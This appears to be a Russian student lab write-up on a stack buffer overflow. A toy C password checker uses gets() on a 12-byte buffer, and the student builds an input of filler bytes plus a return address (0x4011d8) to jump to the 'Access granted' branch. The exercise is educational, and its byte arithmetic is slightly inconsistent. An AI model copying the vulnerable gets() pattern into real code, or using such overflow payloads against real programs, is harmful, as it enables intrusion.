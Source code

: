 ## Задание 5 Функции (Ответ в этом же файле ниже)

1) Переписать абонентский справочник с использованием функций
2) Имеется программа (исходный код которой приводится ниже,
компилировать с ключами: -fno-stack-protector -no-pie). Вам необходимо
произвести анализ программы с помощью отладчика для выяснения длины
массива для ввода пароля и адреса ветки условия проверки корректности
ввода пароля, которая выполняется при условии совпадения паролей.
Ввести пароль (строку символов)таким образом, чтобы перезаписать адрес
возврата на выясненный адрес (есть символы которые нельзя ввести с
клавиатуры, поэтому можно использовать перенаправление ввода(<) при
запуске программы).

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int IsPassOk(void);

int main(void){
    int PwStatus;
    puts("Enter password:");
    PwStatus = IsPassOk();
    if (PwStatus == 0) {
        printf("Bad password!\n");
        exit(1);
    } else {
        printf("Access granted!\n"); // Строка для которой нужно выяснить адрес
    }
return 0;}

int IsPassOk(void){
    char Pass[12];
    gets(Pass);
    return 0 == strcmp(Pass, "test");
}
```

## Ответ
1. **Длина массива** <br>![alt text](image.png)<br>
2. **Адрес строки по заданию** <br>![alt text](image-8.png)<br> мы видим адрес нашей строки в (0x00000000004011fa) выделили память. Далее мы заполнили ее `100000000001` и видим результат <br>![alt text](image-7.png)<br>
3. **Адрес возврата** `0x00000000004011d8`<br>
![alt text](image-3.png)<br>
4. **Далее мы знаем, что у нас идет:**
- Адрес возврата: 8 байт который надо переписать на нужный нам
- `rbp`: 8 байт
- 12 байт наш массив

Для того чтобы переполнить, мы должны заполнить 28 байт. Формируем строку:
```plaintext
'c', 'c', 'c', 'c', 'c', 'c', 'c', 'c', 'c', 'c', 'c', 'c', - 12 байт
'r', 'r', 'r', 'r', 'r', 'r', 'r', 'r', - 8 байт
0xd8, 0x11, 0x40, 0x00 - адрес printf
```
5. **Формируем строку** в файле file.c <br>![alt text](image-1.png)<br>
6. **Помещаем ее в наше програму**  <br>![alt text](image-9.png)<br>